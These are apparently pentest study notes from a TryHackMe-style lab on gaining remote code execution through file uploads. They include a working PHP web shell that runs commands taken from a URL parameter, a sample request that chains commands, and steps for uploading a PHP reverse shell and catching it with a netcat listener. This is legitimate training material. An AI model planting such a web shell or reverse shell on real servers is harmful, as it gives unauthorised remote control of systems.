 = Remote Code Injection

2 Methods:
1. Web Shells (often the only opportunity)
2. Reverse/Bind Shells (preffered)

- e.g. with a low-privileged web user Account "www-data"
- usually with uploading a programm in the same language as the backend (e.g. php, python django, node.js)
- doesnt work if the app is routed (if routing is defined in the app and not the filesystem)
- restricted by
  - file length
  - firewall rules

e.g. Wordpressversion 4.6 (after wpscan)  => https://www.exploit-db.com/exploits/41962

# Web Shell

## PHP

Create a webshell.php:
```
<?php
    echo system($_GET["cmd"]);
?>
```

and call it on the Target with: `view-source:http://demo.uploadvuln.thm/uploads/webshell.php?cmd=id;whoami;ls`

# Reverse Shell

Use a general [Pentest Monkey Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), change Line 49 `$ip = '127.0.0.1'; // CHANGE THIS` and save as "reverse-shell.php"

Start a [[netcat]] Listener on the local machine: `nc -lvnp 1234`

Upload the Shell by navigating to the uploaded File: `http://demo.uploadvulns.thm/uploads/php-reverse-shell.php`

The Webpage shouldn load normally but will hang and we will get a connection in netcat.

